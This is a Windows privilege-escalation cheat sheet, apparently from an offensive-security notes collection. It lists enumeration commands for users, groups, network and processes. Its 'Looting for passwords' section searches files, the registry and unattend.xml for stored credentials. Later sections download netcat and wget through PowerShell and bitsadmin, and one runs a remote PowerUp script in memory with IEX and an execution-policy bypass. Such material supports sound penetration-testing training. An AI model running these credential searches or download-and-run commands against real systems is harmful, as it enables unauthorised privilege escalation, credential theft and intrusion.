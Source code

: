 # Windows - Privilege Escalation
Almost all of the following commands are from [The Open Source Windows Privilege Escalation Cheat Sheet](https://addaxsoft.com/wpecs/)


## Windows Version and Configuration
```powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

Architecture
```powershell
wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%
```


List all env variables
```powershell
set
```

List all drives
```powershell
wmic logicaldisk get caption || fsutil fsinfo drives
```

## User Enumeration

Get current username
```powershell
echo %USERNAME% || whoami
```

List all users
```powershell
net user
whoami /all
```

List logon requirements; useable for bruteforcing
```powershell
net accounts
```

Get details about a user (i.e. administrator, admin, current user)
```powershell
net user administrator
net user admin
net user %USERNAME%
```

List all local groups
```powershell
net localgroup
```

Get details about a group (i.e. administrators)
```powershell
net localgroup administrators
```

## Network Enumeration

List all network interfaces
```powershell
ipconfig /all
```

List current routing table
```powershell
route print
```

List the ARP table
```powershell
arp -A
```

List all current connections
```powershell
netstat -ano
```

List firware state and current configuration
```powershell
netsh advfirewall firewall dump
```

List all network shares
```powershell
net share
```

## Looting for passwords

Search for file contents
```powershell
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
```

Search for a file with a certain filename
```powershell
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
```

Search the registry for key names
```powershell
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K
```

Read a value of a certain sub key
```powershell
REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList
```

Password in unattend.xml
```powershell
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
```powershell
   <component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64">
    <AutoLogon>
     <Password>*SENSITIVE*DATA*DELETED*</Password>
     <Enabled>true</Enabled> 
     <Username>Administrateur</Username> 
    </AutoLogon>

    <UserAccounts>
     <LocalAccounts>
      <LocalAccount wcm:action="add">
       <Password>*SENSITIVE*DATA*DELETED*</Password>
       <Group>administrators;users</Group>
       <Name>Administrateur</Name>
      </LocalAccount>
     </LocalAccounts>
    </UserAccounts>
```
The Metasploit module `post/windows/gather/enum_unattend` looks for these files.

## Processes Enum
What processes are running?
```powershell
tasklist /v
```

Which processes are running as "system"
```powershell
tasklist /v /fi "username eq system"
```

Do you have powershell magic?
```powershell
REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion
```


## Uploading / Downloading files
a wget using powershell
```powershell
powershell -Noninteractive -NoProfile -command "wget https://addaxsoft.com/download/wpecs/wget.exe -UseBasicParsing -OutFile %TEMP%\wget.exe"
```

wget using bitsadmin (when powershell is not present)
```powershell
cmd /c "bitsadmin /transfer myjob /download /priority high https://addaxsoft.com/download/wpecs/wget.exe %TEMP%\wget.exe"
```

now you have wget.exe that can be executed from %TEMP%wget for example I will use it here to download netcat
```powershell
%TEMP%\wget https://addaxsoft.com/download/wpecs/nc.exe
```

## Spot the weak service using PowerSploit's PowerUP
```powershell
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```

## Thanks to
* [The Open Source Windows Privilege Escalation Cheat Sheet by amAK.xyz and @xxByte](https://addaxsoft.com/wpecs/)
* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)